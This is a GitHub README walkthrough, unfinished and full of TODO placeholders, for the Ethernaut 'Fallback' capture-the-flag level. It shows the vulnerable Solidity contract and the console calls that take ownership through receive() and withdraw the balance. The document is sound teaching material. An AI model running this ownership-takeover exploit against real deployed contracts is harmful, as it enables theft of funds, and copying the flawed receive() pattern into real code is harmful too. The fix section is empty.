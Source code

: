 # Fallback challenge - Level 1 🚧 Update In Progress 🏗
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- The require statement inside the fallback function receive() is making it an easy target to exploit,  

```Solidity
/** 
* @notice This fallback function receive() is the main attack target, in order to pass the 
* require statement player must use function contribute() 1 wei will be enough, using the console
* player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
* player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
*/
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; 
}
```

## 🆘 The victim contract in detail

```yml
The victim contract imports OpenZeppelin's safeMath here:
```
- TODO

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
```

- TODO

```Solidity
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
```

- TODO

```Solidity
 function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```


## ⚠️ The vulnerability in detail

```yml
The vulnerability:
```
- TODO

```Solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; 
}
```

- TODO

```JavaScript
/** 
* @notice This fallback function receive() is the main attack target, in order to pass the 
* require statement player must use function contribute() 1 wei will be enough, using the console
* player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
* player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
*/

await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();

```

## 💥 The attack in detail

```yml
The attack:
```

- TODO

```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
- TODO

```Solidity

```

## 🩺 How can we fix this vulnerablity in the victim contract?

- I would create more robust require statements, inside a seperate named function for receiving tokens how I prefer,

```Solidity

```











  
